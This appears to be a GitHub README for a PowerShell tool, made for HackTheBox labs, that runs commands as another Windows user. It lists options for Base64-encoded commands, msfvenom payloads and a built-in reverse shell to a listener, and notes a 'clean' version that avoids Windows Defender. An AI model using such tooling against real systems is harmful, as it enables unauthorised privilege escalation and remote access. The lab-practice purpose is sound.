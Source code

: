 # About
A PowerShell script that lets you execute commands as another user.

These scripts were made to be used in solving HackTheBox boxes. Some Windows boxes require you to run commands as another user to elevate your privilege and these scripts just do that!

There are two versions of this script. The **Clean** and **Normal**. The Normal script has a built-in PowerShell reverse shell one-liner, however, that one-liner might cause the Windows Defender to be triggered in some boxes. That is why there is a clean version without the one-liner.

You can also use the command feature to execute `msfvenom` payloads.

# Parameters
```powershell
-Help | -h            # Displays help and how to use the script.
-Username | -u        # Username of the user you want to run commands as.
-Password | -p        # Password of the user you want to run commands as.
-ComputerName | -cn   # Current computer's name. (required for the Invoke-Command command)
-Command | -c         # Command you want to run.
-Base64 | -b          # If set, lets you to pass Base64 encoded command .(Used alongside with -c)
-RevShell | -rs       # If set, uses the PowerShell reverse shell one-liner.
-LHOST | -lh          # Listening machine's ip address. (Used alongside with -rs)
-LPORT | -lp          # Listening machine's port. (Used alongside with -rs)
```
# Examples
```powershell
Regular Command:
.\Run-As.ps1 -Username <username> -Password <password> -ComputerName <computer name> -Command <command>
or
.\Run-As.ps1 -u <username> -p <password> -cn <computer name> -c <command>

---

Base64 Command:
.\Run-As.ps1 -Username <username> -Password <password> -ComputerName <computer name> -Base64 -Command <command>
or
.\Run-As.ps1 -u <username> -p <password> -cn <computer name> -b -c <command>

---

Reverse Shell (using built-in PowerShell commands)
.\Run-As.ps1 -Username <username> -Password <password> -ComputerName <computer name> -RevShell -LHOST <local ip> -LPORT <local port>
or
.\Run-As.ps1 -u <username> -p <password> -cn <computer name> -rs -lh <local ip> -lp <local port>
```

# Misc
PowerShell one liner taken from: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
